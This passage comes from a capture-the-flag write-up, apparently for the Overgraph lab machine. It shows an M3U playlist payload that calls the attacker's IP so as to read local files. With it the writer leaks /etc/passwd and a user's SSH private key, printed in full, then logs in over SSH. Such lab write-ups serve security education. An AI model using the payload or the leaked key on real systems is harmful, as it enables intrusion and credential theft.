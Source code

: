 

The newlines are replaced with nulls, which is annoying, but easily
fixed:



    oxdf@hacky$ cat 2956d69c4ec060d6____etc_passwd | tr '\000' '\n'
    root:x:0:0:root:/root:/bin/bash
    daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
    bin:x:2:2:bin:/bin:/usr/sbin/nologin
    sys:x:3:3:sys:/dev:/usr/sbin/nologin
    ...[snip]...



### SSH

#### Read Key

I managed to leak the username in error messages earlier, and now from
the `passwd` file. I'll try to grab `id_rsa` from `/home/user/.ssh`:



    #EXTM3U
    #EXT-X-MEDIA-SEQUENCE:0
    #EXTINF:10.0,
    http://10.10.14.6/initial.m3u?filename=/home/user/.ssh/id_rsa
    #EXT-X-ENDLIST



On uploading, it worked:



    oxdf@hacky$ cat 23fea34250615ed7____home_user__ssh_id_rsa 
    -----BEGIN OPENSSH PRIVATE KEY-----b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAJjebJ3U3myd1AAAAAtzc2gtZWQyNTUxOQAAACAvdFWzL7vVSn9cH6fgB3Sgtt2OG4XRGYh5ugf8FLAYDAAAAEDzdpSxHTz6JXGQhbQsRsDbZoJ+8d3FI5MZ1SJ4NGmdYC90VbMvu9VKf1wfp+AHdKC23Y4bhdEZiHm6B/wUsBgMAAAADnVzZXJAb3ZlcmdyYXBoAQIDBAUGBw==-----END OPENSSH PRIVATE KEY-----



#### Connect

After fixing the nulls to newlines, I can connect as user:



    oxdf@hacky$ ssh -i ~/keys/overgraph-user user@graph.htb
    Welcome to Ubuntu 20.04.4 LTS (GNU/Linux 5.4.0-107-generic x86_64)
    ...[snip]...
    user@overgraph:~$



And grab `user.txt`:



    user@overgraph:~$ cat user.txt
    af0f30a6************************

